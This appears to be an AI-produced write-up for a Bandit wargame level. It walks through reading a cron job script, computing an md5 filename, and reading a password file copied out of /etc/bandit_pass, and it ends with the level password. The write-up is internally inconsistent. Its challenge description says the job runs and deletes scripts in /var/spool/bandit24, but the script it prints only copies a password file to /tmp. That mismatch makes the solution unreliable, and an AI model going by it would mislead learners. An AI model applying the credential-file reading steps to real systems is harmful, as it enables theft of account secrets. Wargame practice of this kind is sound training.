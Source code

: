 Awesome! Here's the final writeup for this batch:

---
### 🧩 Challenge Description

> A program is **running automatically at regular intervals** from `cron`, as user `bandit24`.  
> It **deletes all scripts** in a specific directory (`/var/spool/bandit24`) and **executes only one script** — `/usr/bin/cronjob_bandit24.sh`.

> Your task is to **read the script**, understand what it does, and **leak the password** from `/etc/bandit_pass/bandit24`.

---

### 🧪 Solution Strategy

1. **Check the cron job definition:**
    
    ```bash
    cat /etc/cron.d/cronjob_bandit24
    ```
    
    Output:
    
    ```
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh
    ```
    
2. **Read the cron job script:**
    
    ```bash
    cat /usr/bin/cronjob_bandit24.sh
    ```
    
    Output:
    
    ```bash
    #!/bin/bash
    
    myname=$(whoami)
    mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f1)
    echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
    cp /etc/bandit_pass/$myname /tmp/$mytarget
    ```
    
3. **Understand that the script generates a hash based on:**
    
    ```bash
    echo "I am user bandit24" | md5sum
    ```
    
    Output:
    
    ```
    9a2c8e5d6ecbdedd312be69ed170fcdb
    ```
    
4. **Use the hash to read the password file:**
    
    ```bash
    cat /tmp/9a2c8e5d6ecbdedd312be69ed170fcdb
    ```
    

---

### ✅ Commands Used

```bash
echo "I am user bandit24" | md5sum
cat /tmp/9a2c8e5d6ecbdedd312be69ed170fcdb
```

---

### 🔑 Password for Bandit24

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---
